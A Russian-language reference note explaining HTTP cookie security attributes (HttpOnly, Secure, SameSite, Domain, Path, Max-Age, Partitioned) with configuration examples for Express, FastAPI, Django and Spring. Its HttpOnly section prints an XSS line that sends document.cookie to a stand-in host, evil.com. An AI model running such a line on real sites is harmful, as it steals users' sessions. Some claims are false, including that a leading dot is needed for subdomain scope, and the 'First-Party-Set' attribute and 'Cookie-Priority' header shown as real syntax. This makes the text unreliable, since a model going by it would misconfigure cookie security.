

---
aliases:
  - Cookie
  - Host-Only
  - HTTP Cookie
  - HttpOnly
  - SameSite
  - Secure
  - Set-Cookie
  - куки
---

**HTTP Cookie** — это небольшой фрагмент данных, который сервер отправляет браузеру через заголовок `Set-Cookie`. Браузер сохраняет его и автоматически отправляет обратно при каждом запросе к тому же домену.

```http
Set-Cookie: session_id=abc123; Path=/; Domain=example.com
```

Куки — это механизм хранения данных на стороне клиента, но без правильной настройки они становятся **вектором для атак**. По умолчанию куки:

- доступны JavaScript (`document.cookie`);
- отправляются по HTTP (не только HTTPS);
- отправляются на все поддомены и при cross-site запросах.

Это открывает двери для **XSS**, **MITM** и **CSRF**-атак. Флаги `HttpOnly`, `Secure` и `SameSite` — это **три уровня защиты**, которые превращают обычные куки в безопасные.

## Флаги безопасности

### HttpOnly

Флаг, который **запрещает доступ к куки через JavaScript**.

```http
Set-Cookie: session_id=abc123; HttpOnly
```

Браузер сохраняет куку и **автоматически** отправляет её в HTTP-заголовках, но `document.cookie` **не видит** эту куку.

```javascript
// Без HttpOnly
document.cookie // "session_id=abc123; other=value"

// С HttpOnly
document.cookie // "other=value" (session_id скрыта)
```

**Защищает от:** **XSS (Cross-Site Scripting)** — когда злоумышленник внедряет вредоносный JavaScript на страницу:

```javascript
// Атакующий пытается украсть куки
fetch('https://evil.com/steal?cookies=' + document.cookie)
```

Если кука с `HttpOnly` — JavaScript её **не увидит**, и кража не удастся.

**Когда использовать:**

- ✅ **Всегда** для сессионных кук (`session_id`, `auth_token`)
- ✅ Для любых кук, которые **не нужны** JavaScript
- ❌ Не использовать, если фронтенду **действительно** нужно читать куку (редкий случай)

### Secure

Флаг, который указывает браузеру отправлять куку **только по HTTPS**.

```http
Set-Cookie: session_id=abc123; Secure
```

Браузер отправляет куку только если соединение **зашифровано** (HTTPS); при HTTP-запросе кука **не отправляется**.

```http
# HTTPS запрос - кука отправляется
GET /api/data (https://example.com)
Cookie: session_id=abc123

# HTTP запрос - кука НЕ отправляется
GET /api/data (http://example.com)
Cookie: (пусто)
```

**Защищает от:** **MITM (Man-in-the-Middle)** — когда злоумышленник перехватывает трафик в публичной Wi-Fi сети:



С флагом `Secure` кука **никогда** не будет отправлена по незашифрованному каналу.

**Когда использовать:**

- ✅ **Всегда** в продакшене (все сайты должны быть на HTTPS)
- ✅ Для всех чувствительных кук (сессии, токены)
- ⚠️ В dev-окружении (localhost) можно отключить для удобства

### SameSite

Флаг, который контролирует, **когда кука отправляется при cross-site запросах** (запросах с других доменов).

```http
Set-Cookie: session_id=abc123; SameSite=Strict
```

**SameSite=Strict** (самый строгий) — кука отправляется **только** если запрос идёт с **того же сайта** (same-site).

```javascript
// Пользователь на example.com
// Клик по ссылке на example.com/api - кука отправляется ✅

// Пользователь на evil.com
// Evil.com делает запрос к example.com/api - кука НЕ отправляется ❌
```

**SameSite=Lax** (умеренный, **по умолчанию в современных браузерах**) — кука отправляется при:

- same-site запросах;
- **top-level навигации** (переход по ссылке, форма GET) с других сайтов;
- cross-site AJAX/fetch запросах — **не отправляется**.

```javascript
// Пользователь на evil.com
// <a href="https://example.com/dashboard"> - кука отправляется ✅ (top-level)
// fetch('https://example.com/api') - кука НЕ отправляется ❌ (cross-site)
```

**SameSite=None** (самый слабый) — кука отправляется **всегда**, даже при cross-site запросах. **Требует флаг `Secure`**.

```http
Set-Cookie: session_id=abc123; SameSite=None; Secure
```

**Защищает от:** **CSRF (Cross-Site Request Forgery)** — когда злоумышленник заставляет браузер жертвы выполнить нежелательное действие:

```html
<!-- На сайте evil.com -->

```

Если у пользователя есть активная сессия в `bank.com`, браузер **автоматически** отправит куки, и перевод выполнится. С `SameSite=Lax` или `Strict` — куки **не отправятся**, и атака не сработает.

**Когда использовать:**

| Режим | Когда использовать |
|-------|-------------------|
| **Strict** | Максимальная безопасность, но может сломать UX (пользователь не войдёт в систему при переходе по ссылке из email) |
| **Lax** | **Рекомендуется по умолчанию** для большинства сайтов |
| **None** | Только для cross-site сценариев ([[SSO|SSO]], embedded widgets) + **обязательно** `Secure` |

## Прочие атрибуты Set-Cookie

### Domain

Определяет, для каких доменов доступна кука.

```http
Set-Cookie: id=abc; Domain=.example.com
```

- Если **не указан**: кука работает только для точного домена запроса (host-only).
- Если указан с точкой `.example.com`: кука доступна для `example.com` и всех поддоменов (`api.example.com`, `blog.example.com`).
- **Нельзя** установить куку для чужого домена (защита от атак).

```http
# Работает
# Запрос с shop.example.com
Set-Cookie: token=xyz; Domain=.example.com

# НЕ работает (браузер отклонит)
# Запрос с example.com
Set-Cookie: token=xyz; Domain=.google.com
```

**Важно:** современные браузеры требуют **явного** указания поддомена. Кука с `Domain=example.com` **не** будет отправлена на `sub.example.com`, если не указано `.example.com`.

### Path

Определяет, для каких URL-путей доступна кука.

```http
Set-Cookie: admin=xyz; Path=/admin
```

- `Path=/` (по умолчанию) — кука доступна везде.
- `Path=/admin` — кука отправляется только при запросах к `/admin` и его подпутям (`/admin/users`, `/admin/settings`).
- Запросы к `/api` **не получат** эту куку.

```http
# Кука с Path=/admin
GET /admin/dashboard   → Cookie отправляется ✅
GET /admin/users       → Cookie отправляется ✅
GET /api/data          → Cookie НЕ отправляется ❌
GET /                  → Cookie НЕ отправляется ❌
```

**Когда использовать:**

- разграничение сессий для разных разделов сайта;
- снижение трафика (куки не отправляются туда, где не нужны).

### Expires

Указывает **конкретную дату и время**, после которой кука удаляется. Формат: `Day, DD Mon YYYY HH:MM:SS GMT` (RFC 1123).

```http
Set-Cookie: remember_me=xyz; Expires=Fri, 31 Dec 2027 23:59:59 GMT
```

**Особенности:**

- зависит от **часов на клиенте** (если часы сбиты — кука может истечь раньше/позже);
- если указать дату в прошлом — кука **удалится**;
- если не указан ни `Expires`, ни `Max-Age` — это **session cookie** (удаляется при закрытии вкладки/браузера).

### Max-Age

Указывает **количество секунд** до истечения куки.

```http
Set-Cookie: id=abc; Max-Age=3600    # 1 час
Set-Cookie: remember=xyz; Max-Age=2592000  # 30 дней
Set-Cookie: logout=1; Max-Age=0     # Удалить куку немедленно
```

**Преимущества перед Expires:**

- не зависит от часов клиента;
- проще вычислять (не нужно форматировать дату);
- **имеет приоритет** над `Expires`, если указаны оба.

```http
# Max-Age переопределит Expires
Set-Cookie: id=abc; Expires=Wed, 15 Jun 2030 10:00:00 GMT; Max-Age=60
# Кука истечет через 60 секунд, а не в 2030 году
```

### Partitioned (CHIPS)

Создаёт **изолированные куки** для каждого top-level сайта. Предотвращает отслеживание пользователей между сайтами.

```http
Set-Cookie: session_id=abc; Partitioned; Secure
```

- Кука **привязывается** к top-level домену, на котором была установлена.
- Одна и та же кука на разных сайтах будет **разной**.

```http
# Пользователь на site-a.com, загружает iframe с tracker.com
# Устанавливается кука: tracker_session=xyz; Partitioned

# Позже пользователь на site-b.com, загружает тот же iframe с tracker.com
# Браузер НЕ отправит tracker_session=xyz (разные партиции)
```

**Когда использовать:**

- ✅ для embedded-виджетов (чат, комментарии);
- ✅ для [[sso|SSO-провайдеров]];
- ✅ для защиты приватности пользователей.

**Требует** `Secure`. Поддерживается в Chrome, Edge, частично в других браузерах.

### Priority (Chrome)

Указывает приоритет куки при очистке (когда браузер решает, какие куки удалить из-за нехватки места).

```http
Set-Cookie: important=xyz; Priority=High
```

- `Low` — удаляется первой;
- `Medium` (по умолчанию);
- `High` — удаляется последней.

**Когда использовать:**

- для критически важных кук (сессии, авторизация);
- работает только в Chromium-браузерах (Chrome, Edge, Opera).

### Host-Only (неявный атрибут)

Кука доступна **только** для точного домена, на котором установлена (без поддоменов). Активируется просто: **не указывайте** `Domain`.

```http
# Host-only кука (только для shop.example.com)
Set-Cookie: cart_id=abc
# НЕ будет отправлена на api.shop.example.com

# Domain-кука (для example.com и всех поддоменов)
Set-Cookie: cart_id=abc; Domain=.example.com
# Будет отправлена на api.shop.example.com
```

**Когда использовать:**

- ✅ для изоляции кук между поддоменами;
- ✅ по умолчанию (безопаснее).

## Сводная таблица флагов

| Флаг | Защищает / Назначение | Тип | Пример |
|------|-----------------------|-----|--------|
| **Domain** | Область действия домена | Строка | `.example.com` |
| **Path** | Область действия пути | Строка | `/admin` |
| **Expires** | Абсолютное время истечения | Дата | `Wed, 15 Jun 2026 10:00:00 GMT` |
| **Max-Age** | Относительное время (сек) | Число | `3600` |
| **Secure** | Только HTTPS (от MITM) | Булев | `Secure` |
| **HttpOnly** | Запрет JS-доступа (от XSS) | Булев | `HttpOnly` |
| **SameSite** | Cross-site контроль (от CSRF) | Enum | `Lax`, `Strict`, `None` |
| **Partitioned** | Изоляция по top-site | Булев | `Partitioned` |
| **Priority** | Приоритет очистки | Enum | `High`, `Medium`, `Low` |

## Практические примеры

**Идеальная сессионная кука (продакшен):**

```http
Set-Cookie: session_id=eyJhbGci...;
            Path=/;
            Domain=.example.com;
            Secure;
            HttpOnly;
            SameSite=Lax;
            Max-Age=3600;
            Priority=High
```

**Кука «Запомнить меня» (долгая жизнь):**

```http
Set-Cookie: remember_token=xyz123;
            Path=/;
            Secure;
            HttpOnly;
            SameSite=Lax;
            Expires=Thu, 31 Dec 2026 23:59:59 GMT
```

**Кука для админ-панели (ограниченный путь):**

```http
Set-Cookie: admin_session=abc;
            Path=/admin;
            Secure;
            HttpOnly;
            SameSite=Strict;
            Max-Age=1800
```

**Cross-site кука для SSO:**

```http
Set-Cookie: sso_token=xyz;
            Path=/;
            Domain=.sso-provider.com;
            Secure;
            SameSite=None;
            Max-Age=300
```

**Удаление куки:**

```http
Set-Cookie: session_id=;
            Max-Age=0
```

## Настройка в популярных фреймворках

**Express.js (Node.js):**

```javascript
res.cookie('session_id', token, {
  domain: '.example.com',
  path: '/',
  maxAge: 3600000,        // миллисекунды
  secure: true,
  httpOnly: true,
  sameSite: 'lax',
  partitioned: true,      // если поддерживается
  priority: 'high'
})
```

**FastAPI (Python):**

```python
from fastapi.responses import Response

response = Response()
response.set_cookie(
    key="session_id",
    value=token,
    domain=".example.com",
    path="/",
    max_age=3600,
    secure=True,
    httponly=True,
    samesite="lax"
)
```

**Django (Python):**

```python
# settings.py
SESSION_COOKIE_DOMAIN = '.example.com'
SESSION_COOKIE_PATH = '/'
SESSION_COOKIE_AGE = 3600
SESSION_COOKIE_SECURE = True
SESSION_COOKIE_HTTPONLY = True
SESSION_COOKIE_SAMESITE = 'Lax'
SESSION_COOKIE_PARTITIONED = True  # Django 5.0+
```

**Spring Boot (Java):**

```java
ResponseCookie cookie = ResponseCookie.from("session_id", token)
    .domain(".example.com")
    .path("/")
    .maxAge(Duration.ofHours(1))
    .secure(true)
    .httpOnly(true)
    .sameSite("Lax")
    .build();
response.addHeader(HttpHeaders.SET_COOKIE, cookie.toString());
```

## Частые ошибки

**1. Установка куки без HTTPS с `Secure`**

```http
# НЕ сработает в современных браузерах
Set-Cookie: id=abc; Secure
# На HTTP-сайте
```

**Решение:** включите HTTPS или уберите `Secure` для dev.

**2. `SameSite=None` без `Secure`**

```http
# Браузер отклонит
Set-Cookie: id=abc; SameSite=None
```

**Решение:** добавьте `Secure`.

**3. Неправильный формат `Expires`**

```http
# НЕ сработает
Set-Cookie: id=abc; Expires=2026-12-31
```

**Решение:** используйте RFC 1123-формат или `Max-Age`.

**4. Установка куки для чужого домена**

```http
# Браузер отклонит (защита)
Set-Cookie: id=abc; Domain=.google.com
# С сайта example.com
```

**5. Конфликт `Max-Age` и `Expires`**

```http
# Max-Age переопределит Expires
Set-Cookie: id=abc; Expires=...; Max-Age=60
```

## Экспериментальные и будущие флаги

**Cookie Deprecation (Third-Party Cookie Phase-Out)** — браузеры постепенно отключают third-party cookies:

- Chrome: поэтапное отключение в 2025-2026;
- Safari: уже блокирует;
- Firefox: блокирует по умолчанию.

**Альтернативы:**

- **CHIPS** (Partitioned cookies);
- **Storage Access API**;
- **FedCM** (для SSO).

**Cookie Priority Headers** — новые заголовки для управления приоритетом:

```http
Cookie-Priority: high
```

**First-Party Sets** — группировка связанных доменов для совместного использования кук:

```http
Set-Cookie: id=abc; First-Party-Set=example.com
```

## Чек-лист безопасной куки

Для **продакшена** минимальная конфигурация:

```http
Set-Cookie: name=value;
            Secure;
            HttpOnly;
            SameSite=Lax;
            Max-Age=3600
```

Расширенная (для критичных данных):

```http
Set-Cookie: name=value;
            Domain=.example.com;
            Path=/;
            Secure;
            HttpOnly;
            SameSite=Strict;
            Max-Age=3600;
            Partitioned;
            Priority=High
```

## Заключение

> **HttpOnly + Secure + SameSite = минимальный стандарт безопасности для кук.**

- **HttpOnly** защищает от кражи кук через JavaScript (XSS).
- **Secure** защищает от перехвата трафика (MITM).
- **SameSite** защищает от подделки запросов (CSRF).

Без этих флагов приложение уязвимо для **базовых атак**, которые автоматизируются скриптами за секунды.

Все флаги по назначению:

| Категория | Флаги |
|-----------|-------|
| **Область действия** | `Domain`, `Path`, `Host-Only` |
| **Время жизни** | `Expires`, `Max-Age` |
| **Безопасность** | `Secure`, `HttpOnly`, `SameSite` |
| **Приватность** | `Partitioned` |
| **Управление** | `Priority` |

> **Золотое правило:** используйте **минимум флагов, необходимых для задачи**, но **всегда включайте** `Secure`, `HttpOnly` и `SameSite` для сессионных кук.
